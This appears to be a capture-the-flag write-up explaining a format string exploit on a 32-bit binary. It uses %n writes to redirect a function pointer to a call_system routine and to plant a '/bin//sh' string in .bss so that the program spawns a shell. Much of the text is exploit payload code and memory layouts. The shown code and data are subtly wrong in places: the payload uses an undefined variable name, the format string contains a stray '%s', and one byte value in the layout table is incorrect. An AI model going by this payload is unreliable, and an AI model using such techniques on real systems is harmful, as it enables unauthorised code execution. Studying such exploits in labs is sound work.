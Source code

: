 Writing to an arbitrary address with a format string vulnerability is pretty easy, but it will print at least 4 characters, the address where we want to write to, but we need to write  the value 1. So if the minimum value we can write to an address is 4 how can we write the value 1?
>Remember: we need to write 1 on the address "0x0804A02C".

Well this is a bit tricky, what we can do is write  to "0x804A02C-0x1"  0x100 placing "00" on "0x0804A02b" and "01" on the address "0x804A02C".
```
Data segment layout will look like:

0x804A02B->00
0x804A02C->01

There was an "overflow" and we started to write to "0x804A02C"
```

```python
write_0x100_addr = p32(0x804A02B)
choose_arg = 0x80486C7
function_pointer = p32(choose_arg)

payload  = write_0x100
payload += "%s" + str(0x100-0x4) + "p" + "%20$n" #want to write 0x100, but we have printed 4 bytes from write_0x100_addr
payload  = payload.ljust(20, 'A') #fill with 'A' until len = 20 so we can overwrite function_pointer
payload += function_pointer
```
## Final Part
Now we need to set the argument for **call_system**.

As we know the address "0x804A030" contains a pointer to the **call_system** argument, but it was not initialized, and we wish it as a pointer to /bin/sh string

We have to do 2 things.

  1.write /bin/sh to somewhere in memory.

  2.write the address of /bin/sh in 0x0804A030

We need to find a place we're we can both write and read. As we've seen before bss has those permissions.
Through format string vuln we can do both writes so let's place our string in "0x0804A020".

The string used was /bin//sh.
```
Note: We probably could use just "sh" and the result would be the same but much more simpler and easy.
```

Then we simply need to write in "0x0804A030" the address of the string "0x0804A020"
```
The data segment will look like this:


0x0804A020 -> "b/" = 0x622f
0x0804A022 -> "ni" = 0x6e60
0x0804A024 -> "//" = 0x2f2f
0x0804A026 -> "hs" = 0x6873
    ...
0x0804A030 -> 0x0804
0x0804A032 -> 0xA020
```
